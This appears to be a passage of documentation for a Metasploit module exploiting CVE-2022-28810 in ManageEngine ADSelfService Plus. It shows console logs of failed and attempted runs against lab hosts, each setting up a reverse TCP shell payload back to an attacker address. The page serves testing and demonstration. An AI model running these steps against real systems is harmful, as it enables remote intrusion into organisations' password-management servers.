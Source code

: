 
### Failed log in

```
sf6 > use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810
[*] Using configured payload cmd/windows/jjs_reverse_tcp
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RHOST 10.0.0.20
RHOST => 10.0.0.20
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set PASSWORD lolwat
PASSWORD => lolwat
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 0.

[*] Running automatic check ("set AutoCheck false" to disable)
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [+] The target appears to be vulnerable. This determination is based on the version string: 6121.
[-] Exploit aborted due to failure: no-access: Log in attempt failed

msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > 
```

### Failed exploitation of patched ADSelfService Plus build 6122

```
msf > use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810
[*] Using configured payload cmd/windows/jjs_reverse_tcp
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RHOST 10.0.0.16
RHOST => 10.0.0.16
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 0.

msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [*] Running automatic check ("set AutoCheck false" to disable)
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. This determination is based on the version string: 6122. "set ForceExploit true" to override check result.

msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > 
```

### Successful exploitation of ADSelfService Plus 6121 on Windows 10 over HTTPs (9251 is default when configured)

```
msf > use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810
[*] Using configured payload cmd/windows/jjs_reverse_tcp
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RPORT 9251
RPORT => 9251
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RHOST 10.0.0.20
RHOST => 10.0.0.20
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > check
[*] 10.0.0.20:9251 - The target appears to be vulnerable. This determination is based on the version string: 6121.
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 0.

```

[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6121/ManageEngine_ADSelfService_Plus_64bit.exe